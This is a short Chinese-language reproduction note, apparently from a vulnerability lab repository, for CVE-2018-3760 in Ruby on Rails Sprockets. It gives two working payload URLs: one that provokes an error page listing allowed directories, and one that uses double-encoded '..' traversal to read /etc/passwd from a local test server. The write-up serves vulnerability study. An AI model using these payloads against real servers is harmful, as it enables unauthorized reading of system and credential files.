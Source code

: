 ## Ruby on Rails 路径穿越漏洞

### 漏洞介绍
> 漏洞编号:**CVE-2018-3760**  
> 漏洞影响版本:Sprockets 3.7.1及之前版本  
> 漏洞提交时间:2018-08-08  


###  漏洞利用
首先利用漏洞报错，查看可用的信息
http://127.0.0.1:3000/assets/file:%2f%2f/etc/passwd

![](README/20D680F0-F292-4C78-A796-7E22EDD080BA.png)


我们通过报错页面，可以获得允许的目录列表。随便选择其中一个目录，如_root_blog_app_assets_config，然后使用%252e%252e_向上一层跳转，最后读取_etc_passwd：

```shell
http://127.0.0.1:3000/assets/file:%2f%2f/root/blog/app/assets/config/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![](README/11F9CCF6-F65A-49F3-8476-044CF2685351.png)




Refer

[Ruby on Rails 路径穿越与任意文件读取漏洞(CVE-2018-3760)分析](https://vulners.com/seebug/SSV:97466/)
[Vulhub - Ruby On Rails 路径穿越漏洞（CVE-2018-3760）复现 - 多崎巡礼的博客 - CSDN博客](https://blog.csdn.net/qq_42357070/article/details/83545100)